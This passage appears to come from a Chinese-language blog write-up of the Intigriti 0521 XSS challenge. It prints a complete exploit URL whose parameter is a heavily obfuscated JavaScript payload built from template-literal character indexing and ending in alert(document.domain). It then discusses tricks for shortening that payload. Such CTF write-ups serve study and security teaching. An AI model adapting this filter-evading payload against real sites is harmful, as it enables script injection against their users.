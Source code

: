 網址則是：

```
https://challenge-0521.intigriti.io/captcha.php?c=[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]`_${`e`%2b31[`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${``[`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[9]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[5]%2b`${``[0]}`[1]%2b`${e}`[15]]`36`%2b`${0/0}`[1]%2b`${e}`[21]%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[14]%2b`${e}`[21]%2b`${``%2b{}}`[1]%2b`${``%2b{}}`[5]%2b`${0/0}`[1]%2b`${``%2b{}}`[6]%2b`${``[0]}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`.`%2b17[`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${``[`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[9]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[5]%2b`${``[0]}`[1]%2b`${e}`[15]]`36`%2b`${0/0}`[1]%2b`${e}`[18]%2b17[`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${``[`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[9]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[5]%2b`${``[0]}`[1]%2b`${e}`[15]]`36`%2b`.`%2b`${e}`[18]%2b`${e}`[21]%2b`${``[0]}`[5]%2b`${``%2b{}}`[5]%2b`e`%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[14]%2b1%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[15]%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[15]}``+`#alert(document.domain)
```

## 挑戰最短程式碼

可以執行任意程式碼之後，還有什麼可以玩呢？那就是挑戰最短的程式碼！試著把程式碼弄到最短看看。

可以想到的有：

1.不要用 ｀｀[0] 拿到 undefined，而是用 `e[0]`，可以省一個字元
2. ``+{} 來拿 `[object Object]` 其實多此一舉，用 `{}` 就好，省了三個字
3. 有可以用到 e 的地方盡量用到 e，因為程式碼會最少


再來我們本來是用 `[]['constructor']` 來拿到 function，這樣有點太長了，可以用很科學的方式來找出最短的：

``` js
let min = 99
let winner = ''
for (let prop of Object.getOwnPropertyNames(Array.prototype)) {
  const len = getString(prop).length
  if (len < min) {
    min = len
    winner = prop
  }
}
console.log(winner, min)
```
